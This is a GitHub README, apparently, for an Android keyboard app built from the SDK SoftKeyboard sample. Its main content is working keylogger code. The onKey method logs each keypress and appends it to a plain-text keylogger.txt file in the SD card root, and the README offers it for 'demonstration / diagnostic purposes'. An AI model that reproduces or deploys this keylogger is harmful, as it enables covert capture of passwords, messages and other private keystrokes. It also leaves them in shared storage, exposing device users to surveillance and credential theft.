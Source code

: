 # Android KeyLogger Keyboard

This is a simple modification to the SoftKeyboard sample that is included with the Android SDK. It adds a keylogger that writes output to the root directory of the SD Card (for easy access). This is provided for demonstration / diagnostic purposes only.

The only real change here is to the onKey method of the [SoftKeyboard class](https://github.com/tomgersic/AndroidKeyLogger/blob/master/src/com/example/android/softkeyboard/SoftKeyboard.java):

    public void onKey(int primaryCode, int[] keyCodes) {
    	String keypress = String.valueOf((char)primaryCode);
    	Log.d("Key Pressed",keypress);
    	try{
        	String SDCARD = Environment.getExternalStorageDirectory().getAbsolutePath();
        	String FILENAME = "keylogger.txt";

    		File outfile = new File(SDCARD+File.separator+FILENAME);
    		FileOutputStream fos = new FileOutputStream(outfile,true);
    		fos.write(keypress.getBytes());
    		fos.close();
    	}catch(Exception e) {
    		Log.d("EXCEPTION",e.getMessage());
    	}
